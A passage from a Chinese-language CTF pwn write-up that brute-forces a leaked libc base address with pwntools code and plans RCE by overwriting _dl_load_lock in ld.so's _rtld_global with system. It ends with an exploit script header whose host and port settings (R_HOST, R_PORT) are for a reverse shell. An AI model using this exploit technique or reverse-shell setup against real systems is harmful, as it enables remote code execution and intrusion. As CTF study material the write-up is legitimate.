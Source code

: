```python
                print(f"Find new addr {hex(i)}, address: {'0x' + ''.join(hex(i)[2:].zfill(2) for i in addr[::-1])}")
                sh.close()
                break
            sh.close()
    if len(addr) != 6:
        raise ValueError("No valid address exploited!")
    return u64(addr.ljust(8, b'\x00'))

leak_addr = leak_address()
```

值得注意的是，在经过测试后，并不能确定爆出的地址是在 `libc_base` 前还是 `libc_base` 后，所以我们从后往前爆破，这样得到的地址一定大于 `libc_base`

![image-20230322163352223](https://cdn.ova.moe/img/image-20230322163352223.png)

![image-20230322163456138](https://cdn.ova.moe/img/image-20230322163456138.png)



经过多次测试后，可以确定 `7f62f` 这 20bit 是完全一致的（因为范围很大了，基本不会再进位）。在本地的话，这个偏移不会变，所以计算一次完全够用，在服务器则需要爆破。而这个爆破也非常简单。

:::info 如何爆破？

libc_base 的低 12 位一定是0，我们假设前 20bit 完全一致。



在图片这个情况下，我们可以从 `0x7f62f2f9ffff+1` 也就是 `0x7f62f2fa0000`这个位置开始，每次递减 `0x1000`，然后去打相同的 payload 即可，最终它会递减到 `0x7f62f20d8000` 这里，payload 攻击成功。

爆破的范围是 `16^4 = 65536` 次，并非不能接受。

```c
0x7f62fffff000
    ^
0x7f62f????000  // valid address we get
0x7f62f????000  // libc_base
    v
0x7f62f0000000
```

:::

### 0b0010 攻击策略

在本地情况下，我们直接使用已知的偏移，方便调试。

已知 libc 版本和偏移，我们自然能够找到所需要的 gadget。问题就在于只有一次任意写的情况下，我们要如何布置才能达到 RCE 的效果。

在环境不变的情况下，我们可以利用 ld.so 中的 `_rtld_global` 这个表中调用的 `_dl_load_lock (_rtld_global+3840)` ，改写它为 system，其中，rdi 为 `_rtld_global` 中的 `_dl_rtld_lock_recursive (_rtld_global+2312)`。两个相隔 `0x600`，可以在 `Total data length` 字段中写下。

之后通过反弹 shell 即可拿下（即可，笑



```python
from pwn import *
from typing import Callable

context.update(arch="amd64", os="linux")
context.log_level = 'error'
# context.log_level = 'debug'

host = '127.0.0.1'
port = 5566
# host = 'chall.pwnable.tw'
# port = 10002
R_HOST = '172.17.0.1'
R_PORT = 7999
```